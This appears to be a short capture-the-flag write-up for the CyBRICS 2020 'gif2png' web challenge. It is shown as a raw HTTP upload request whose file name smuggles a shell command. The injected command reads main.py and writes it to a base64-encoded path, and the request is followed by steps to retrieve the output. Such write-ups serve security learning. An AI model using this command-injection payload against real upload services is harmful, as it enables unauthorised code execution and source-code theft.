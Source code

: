 Upload a file for the UUID

encode the path to base64 `/uploads/uuid/pwn`


POST / HTTP/1.1
Host: gif2png-cybrics2020.ctf.su
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------97355543933706215461595805411
Content-Length: 55316
Origin: http://gif2png-cybrics2020.ctf.su
DNT: 1
Connection: close
Referer: http://gif2png-cybrics2020.ctf.su/
Upgrade-Insecure-Requests: 1

-----------------------------97355543933706215461595805411
Content-Disposition: form-data; name="file"; filename="'||cat main.py|tee $(echo \"dXBsb2Fkcy8yNDE2MDk0Ni03ZmM3LTQ3YjQtYmZkYS1jYzViMTZhMzI0NWMvcHdu\" | base64 -d)||'.gif"
Content-Type: image/gif

GIF89að     ÿÿÿ!ÿNETSCAPE2.0   !ù
 ÿ ,     ÿ©Ëí£´Ús ¼s(¡FæIzêÊ¶îÇòL×öç:|ã

Send the payload, then request `/uploads/uuid/pwn`